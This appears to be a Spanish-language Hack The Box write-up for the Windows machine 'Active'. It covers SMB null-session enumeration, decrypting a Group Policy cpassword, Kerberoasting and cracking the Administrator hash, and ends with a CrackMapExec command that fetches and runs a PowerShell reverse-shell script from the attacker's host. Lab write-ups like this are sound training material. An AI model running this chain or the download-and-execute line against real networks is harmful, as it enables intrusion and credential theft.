 ```yaml
---
title:  "Active Writeup [ES] - HackTheBox"
date:   2022-01-19 22:00:00 -0300
categories: [HTB]
toc: true
comments: false
tags: [easy, windows, active-directory, kerberoasting]
image:
  src: /images/HTB/Active/00-banner.png
  width: 620   
  height: 410   
---
```


[Active](https://app.hackthebox.com/machines/148) es una máquina **Windows** de dificultad fácil ofrecida por la plataforma de [Hack The Box](https://app.hackthebox.com/). A lo largo de este post encontrarás un paso a paso de su resolución.

# Resumen

Esta máquina trata conceptos de enumeración de Active Directory, recursos compartidos y autenticación. Primero nos encontraremos con un directorio que podemos acceder a través de SMB utilizando un ***null session***, posteriormente obtendremos credenciales desde un archivo encontrado en este directorio y utilizaremos esas credenciales para realizar un **Kerberoasting** y obtener el hash del usuario Administrator.

![Info](/images/HTB/Active/01-info.png)

# Enumeración

## Rustscan - NMAP

Como siempre, se iniciará realizando un escaneo general de los 65535 puertos. En este caso se utilizará [Rustscan](https://github.com/RustScan/RustScan), proporcionando comandos de nmap para realizar el escaneo desde un one-liner.

* ```rustscan 10.10.10.100 -- -sC -sV | tee ports-rustcan```

```plaintext
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
Faster Nmap scanning with Rust.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
🌍HACK THE PLANET🌍

[~] The config file is expected to be at "/home/rustscan/.rustscan.toml"
[~] File limit higher than batch size. Can increase speed by increasing batch size '-b 1048476'.
Open 10.10.10.100:53
Open 10.10.10.100:88
Open 10.10.10.100:135
Open 10.10.10.100:139
Open 10.10.10.100:389
Open 10.10.10.100:593
Open 10.10.10.100:3268
Open 10.10.10.100:3269
Open 10.10.10.100:5722
Open 10.10.10.100:9389
Open 10.10.10.100:47001
Open 10.10.10.100:49152
Open 10.10.10.100:49153
Open 10.10.10.100:49154
Open 10.10.10.100:49155
Open 10.10.10.100:49157
Open 10.10.10.100:49158
Open 10.10.10.100:49165
Open 10.10.10.100:49170
Open 10.10.10.100:49171

(...)

PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid:
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2022-01-20 01:42:44Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
5722/tcp  open  msrpc         syn-ack Microsoft Windows RPC
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49152/tcp open  msrpc         syn-ack Microsoft Windows RPC
49153/tcp open  msrpc         syn-ack Microsoft Windows RPC
49154/tcp open  msrpc         syn-ack Microsoft Windows RPC
49155/tcp open  msrpc         syn-ack Microsoft Windows RPC
49157/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         syn-ack Microsoft Windows RPC
49165/tcp open  msrpc         syn-ack Microsoft Windows RPC
49170/tcp open  msrpc         syn-ack Microsoft Windows RPC
49171/tcp open  msrpc         syn-ack Microsoft Windows RPC
```
## Enumeración SMB

Comenzando con [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec), haremos una enumeración básica.

![](/images/HTB/Active/10-cme-01.png)

Se obtiene el dominio: ```active.htb``` y el nombre de la máquina: ```DC```.

![](/images/HTB/Active/12-cme-02.png)

Utilizando un usuario y contraseña ```null``` es posible listar directorios compartidos SMB. En donde se obtienen permisos de lectura para el share **Replication**.

Ingresaremos al recurso compartido haciendo uso de ```smbclient``` y descargaremos el contenido de manera recursiva.

```bash
> smbclient //10.10.10.100/Replication -N

Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Jul 21 06:37:44 2018
  ..                                  D        0  Sat Jul 21 06:37:44 2018
  active.htb                          D        0  Sat Jul 21 06:37:44 2018

                5217023 blocks of size 4096. 279252 blocks available
smb: \> recurse on
smb: \> prompt off
smb: \> mget *
```
# Obteniendo credenciales

Dentro de la carpeta ```active.htb``` se puede visualizar lo siguiente.

![](/images/HTB/Active/20-downloaded-share.png)

```xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```
Haciendo una búsqueda rápida en la web, vemos que el archivo ```Groups.xml``` sin duda es interesante ya que éste puede almacenar credenciales relacionadas a políticas de grupo o GPO.

En el archivo se obtiene el usuario ```SVC_TGS``` y vemos un elemento llamado ```cpassword``` que contiene una cadena de caracteres que pueden ser descifrados con la ayuda de [gpp-decrypt](https://github.com/t0thkr1s/gpp-decrypt).

![](/images/HTB/Active/25-gpp-decrypt.png)

Teniendo estas credenciales, procedemos a chequearlas con ```cme```.

![](/images/HTB/Active/30-cme-user.png)

Posteriormente verificaremos si existen más usuarios por enumerar haciendo un bruteforcing de RID.

![](/images/HTB/Active/35-cme-rid.png)

No se obtienen nuevos usuarios de interés.

# Kerberoasting

Ahora que tenemos un usuario con credenciales válidas realizaremos un ataque **Kerberoasting**.

* ```GetUserSPNs.py active.htb/SVC_TGS -request -dc-ip 10.10.10.100```

![](/images/HTB/Active/40-kerberoasting.png)

Guardaremos el hash en el archivo ```hash``` y lo crackearemos con ```john``` utilizando el diccionario ```rockyou.txt```

![](/images/HTB/Active/45-hash-cracking.png)

Verificaremos la contraseña con ```cme```.

![](/images/HTB/Active/50-cme-admin.png)

# Consola como Administrador

En este punto que ya poseemos credenciales válidas del usuario ```Administrator```, solo bastaría utilizar ```psexec``` para loguear al sistema, pero en este caso quiero una consola a través de PowerShell.

Para obtener una consola interactiva de Powershell, usaremos el parámetro ```-x``` de **CrackMapExec** para ejecutar comandos y obtener una conexión inversa. El proceso a realizar es el siguiente.

1. Descargar el script [Invoke-PowerShellTcp](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) y modificarlo para entablar una conexión hacia la dirección IP de nuestra máquina a través del puerto 8443.
2. Compartir el script con un servidor web en python3
3. Iniciar un **listener** para obtener la reverse shell.
4. Ejecutar el siguiente comando de cme con las credenciales de **Administrador**.

```bash
cme smb 10.10.10.100 -u 'Administrator' -p 'Ticketmaster1968' -x "powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.6:8000/IPS.ps1')"
```

![](/images/HTB/Active/60-Powershell.png)

Ya teniendo nuestra shell, podemos ejecutar una simple búsqueda para listar las flags.

```powershell
Get-ChildItem -Path C:\Users -Recurse -Include user.txt, root.txt | select FullName
```

![](/images/HTB/Active/65-flags.png)

Y eso sería todo para [Active](https://app.hackthebox.com/machines/148). ¡FELIZ HACKING!


![](/images/HTB/Active/100-pwned.png)
